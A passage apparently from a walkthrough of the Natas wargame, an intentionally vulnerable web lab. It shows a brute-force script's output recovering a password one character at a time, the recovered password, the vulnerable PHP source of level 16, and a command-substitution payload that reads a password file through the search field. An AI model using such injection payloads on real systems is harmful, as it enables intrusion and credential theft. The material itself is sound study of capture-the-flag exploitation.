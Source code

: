 ```
[+] Password: WaIHEacj63wnNIBROHeqi
[+] Password: WaIHEacj63wnNIBROHeqi3
[+] Password: WaIHEacj63wnNIBROHeqi3p
[+] Password: WaIHEacj63wnNIBROHeqi3p9
[+] Password: WaIHEacj63wnNIBROHeqi3p9t
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5n
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nh
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```


WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## Natas16

```php
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

$(grep -E ^8.* /etc/natas_webpass/natas17)hackers


